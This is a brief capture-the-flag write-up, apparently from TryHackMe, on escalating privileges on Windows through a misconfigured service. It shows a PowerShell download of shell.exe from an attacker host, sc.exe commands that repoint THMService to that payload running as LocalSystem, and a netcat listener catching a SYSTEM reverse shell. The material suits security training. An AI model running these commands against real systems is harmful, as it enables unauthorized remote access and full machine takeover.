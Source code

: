 Download shell on target

```bash
PS C:\> (new-object net.webclient).DownloadFile("http://10.11.19.145/shell.exe", "C:\Programdata\shell.exe")
```

Search `service cconfig` from **arsenal** cheatsheet

![](../../attachment/61867794dfdd2d9d1e26feedbaf54ef1.png)

Reconfigure the service

```bash
PS C:\> sc.exe config THMService binpath= "C:\Programdata\shell.exe" obj= LocalSystem
[SC] ChangeServiceConfig SUCCESS
PS C:\> sc.exe start THMService

SERVICE_NAME: THMService
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4180
        FLAGS              :
```

> [!NOTE] Notice
> Specifying `obj= LocalSystem` will make the service run as System!

```bash
┌──(kali㉿kali)-[~/thm]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.93.80] 50129
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\flag.txt
type C:\Users\Administrator\Desktop\flag.txt
THM{INSECURE_SVC_CONFIG}
C:\Windows\system32>
```

